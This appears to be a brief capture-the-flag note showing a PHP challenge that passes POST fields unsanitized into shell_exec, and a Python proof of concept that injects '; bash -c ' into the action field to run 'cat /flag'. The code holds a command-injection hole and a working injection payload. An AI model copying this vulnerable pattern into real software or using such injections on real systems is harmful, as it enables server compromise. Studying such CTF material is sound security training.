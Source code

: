 - # 题目
	- ```php
	      $action = $_POST["action"];
	      $data = "'".$_POST["data"]."'";
	  
	      $output = shell_exec("不用管 -jar jar/NCHU.jar $action $data"); 
	  ```
- # PoC
	- ```python
	  r = base_post(url, data = {
	      "action": "; bash -c ",
	      "data": "cat /flag"
	  })
	  
	  print(r.text)
	  ```